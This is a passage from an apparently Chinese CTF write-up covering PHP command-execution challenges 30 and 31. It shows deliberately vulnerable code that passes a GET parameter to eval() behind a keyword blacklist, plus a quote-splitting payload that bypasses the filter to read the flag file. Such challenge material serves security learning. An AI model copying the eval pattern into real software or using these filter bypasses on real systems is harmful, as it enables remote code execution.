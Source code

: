 ```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:42:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

在29基础上过滤了system和php

```
?c=echo `tac fl''ag.p''hp`;
```



## 31-正则绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

